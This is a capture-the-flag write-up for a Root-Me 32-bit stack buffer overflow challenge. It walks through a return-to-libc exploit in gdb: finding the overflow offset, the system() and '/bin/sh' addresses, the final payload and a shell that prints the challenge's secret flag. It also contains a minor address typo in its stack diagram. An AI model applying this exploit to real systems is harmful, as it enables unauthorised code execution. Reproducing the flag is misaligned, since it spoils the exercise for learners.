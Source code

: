 # ELF x86 - Stack buffer overflow basic 6
https://www.root-me.org/en/Challenges/App-System/ELF32-Stack-buffer-overflow-basic-6
```
Environment configuration :
PIE 	Position Independent Executable 	 No 
RelRO 	Read Only relocations 	                 No 
NX 	Non-Executable Stack 	                 Yes 
ASLR 	Address Space Layout Randomization 	 No 
SF 	Source Fortification 	                 No 
SSP 	Stack-Smashing Protection 	         No 
SRC 	Source code access 	                 Yes 

Challenge connection informations :

Host	        challenge02.root-me.org
Protocol	SSH
Port	        2222
SSH access 	ssh -p 2222 app-systeme-ch33@challenge02.root-me.org    
Username	app-systeme-ch33
Password	app-systeme-ch33
```
According to the source code (and the executable itself), the program will get an argument (_message_) from the command line, and will print it.<br>
The _message_ buffer is 20 bytes long, and there is a use of **strcpy** with no boundary check.<br><br>

So first thing first, the offset which breaks the program need to be found. After few tries:
```gdb
(gdb) run `python -c "print 'A'*32 + 'DDDD'"`
Starting program: /challenge/app-systeme/ch33/ch33 `python -c "print 'A'*32 + 'DDDD'"`
Your message: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAADDDD

Program received signal SIGSEGV, Segmentation fault.
0x44444444 in ?? ()
```

So it's possible to control the _eip_ from overflowing the buffer.<br>
Now, because the NX is on (and the program includes the "stdio.h") lets try to perform return-to-libc attack.<br>
First, let's find the libc's **system** function. According to gdb:
```gdb
(gdb) print system
$1 = {<text variable, no debug info>} 0xb7e63310 <__libc_system>
```
Now, let's check if there is a "/bin/sh" string in libc (ASLR is off). According to gdb:
```gdb
(gdb) info proc map
process 6635
Mapped address spaces:

	Start Addr   End Addr       Size     Offset objfile
	 0x8048000  0x8049000     0x1000        0x0 /challenge/app-systeme/ch33/ch33
	 0x8049000  0x804a000     0x1000        0x0 /challenge/app-systeme/ch33/ch33
	 0x804a000  0x804b000     0x1000     0x1000 /challenge/app-systeme/ch33/ch33
	0xb7e22000 0xb7e23000     0x1000        0x0 
	0xb7e23000 0xb7fce000   0x1ab000        0x0 /lib/i386-linux-gnu/libc-2.19.so
	0xb7fce000 0xb7fd0000     0x2000   0x1aa000 /lib/i386-linux-gnu/libc-2.19.so
	0xb7fd0000 0xb7fd1000     0x1000   0x1ac000 /lib/i386-linux-gnu/libc-2.19.so
	0xb7fd1000 0xb7fd4000     0x3000        0x0 
	0xb7fdc000 0xb7fdd000     0x1000        0x0 
	0xb7fdd000 0xb7fde000     0x1000        0x0 [vdso]
	0xb7fde000 0xb7ffe000    0x20000        0x0 /lib/i386-linux-gnu/ld-2.19.so
	0xb7ffe000 0xb7fff000     0x1000    0x1f000 /lib/i386-linux-gnu/ld-2.19.so
	0xb7fff000 0xb8000000     0x1000    0x20000 /lib/i386-linux-gnu/ld-2.19.so
	0xbffdf000 0xc0000000    0x21000        0x0 [stack]
(gdb) find 0xb7e23000,0xb7fd1000,"/bin/sh"
0xb7f85d4c
1 pattern found.
```

So we've got control on the _eip_, the address to libc's **system** function and the address of a "/bin/sh" string.<br>
In order to exploit the program, the stack should look like the following:
```
          +-------------------+
          |                   |
          |    32 bytes for   |
          |    overflowing    |     <==== Junk
          |                   |
          +-------------------+
          |  system address   |     <==== '\x10\x33\xe6\xb7' = 0xb7e63310
          +-------------------+
          |  return address   |     <==== Junk (doesn't really matter because we are not interested in exiting cleanly)
          +-------------------+
          |    address to     |     <==== '\x4c\x5d\xf8\xb7' = 0xb7f8564c
          |    "/bin/sh"      |
          +-------------------+
```
After constructing the payload, the program gave the following output:
```sh
app-systeme-ch33@challenge02:~$ ./ch33 `python -c "print 'A'*32 + '\x10\x33\xe6\xb7' + 'DDDD' + '\x4c\x5d\xf8\xb7'"`
Your message: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA3��DDDDL]��
$ id
uid=1133(app-systeme-ch33) gid=1133(app-systeme-ch33) euid=1233(app-systeme-ch33-cracked) groups=1233(app-systeme-ch33-cracked),100(users),1133(app-systeme-ch33)
$ cat .passwd
R3t2l1bcISnicet0o!
$ exit
Segmentation fault
```

Note: for exiting without segmentation fault, it's necessary to replace the 'DDDD' with a valid address (e.g address to libc's exit function).
